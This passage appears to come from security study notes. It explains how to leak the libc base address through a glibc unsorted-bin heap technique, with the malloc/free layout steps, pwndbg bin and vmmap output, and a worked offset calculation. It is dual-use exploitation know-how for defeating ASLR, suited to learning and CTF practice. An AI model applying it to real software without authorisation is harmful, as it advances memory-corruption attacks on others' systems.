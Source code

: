 We will attack the unsorted bin because

- The unsorted bins have a double linked list structure.
- The head of the bin has a constant offset from the libc base address.

Attack procedure:

(1) Setup the layout of unsorted bin.

- `malloc` and `free` 7 chunks of memory, 300 bytes each to fill the TCache bin.
- `malloc` and `free` 1 chunk of memory, 300 bytes to fill the unsorted bin.
- The size can fit into TCache bin but not Fast bin.

(2) Read its content.

```
pwndbg> bins
    tcachebins
    0x310 [7]: 0x1a9e4c0 --> 0x1a9e1b0 --> 0x1a9dea0 --> ... --> 0x1a9d260 <-- 0x0
    fastbins
    0x20: 0x0
    0x30: 0x0
    0x40: 0x0
    0x50: 0x0
    0x60: 0x0
    0x70: 0x0
    0x80: 0x0
    unsortedbin
    all: 0x1a9e7c0 --> 0x7fcd34083ca0 (main_arena+96) <-- 0x1a9e7c0
    smallbins
    empty
    largebins
    empty
```

The content is `0x7fcd34083ca0`, which is the address of the main arena.

(3) Calculate the libc base address.

We use `pwndbg> vmmap` to find the address of the heap.

```
0x1de4000          0x1e05000      rw-p  21000  0      [heap]
0x7fcd33c98000     0x7fcd33e7f000 r-xp  1e7000 0      ./libc-2.27.so
```

The libc base address is `0x7fcd33c98000`.

The offset is `0x7fcd34083ca0 - 0x7fcd33c98000 = 0x3ebca0`.

Next time we perform the attack, we can calculate the libc base address by reading the unsorted bin.

e.g. the leaked content is `0x7fa660387ca0`, the libc base address is `0x7fa660387ca0 - 0x3ebca0 = 0x7fa65ff9c000`.

## 6. Web Security
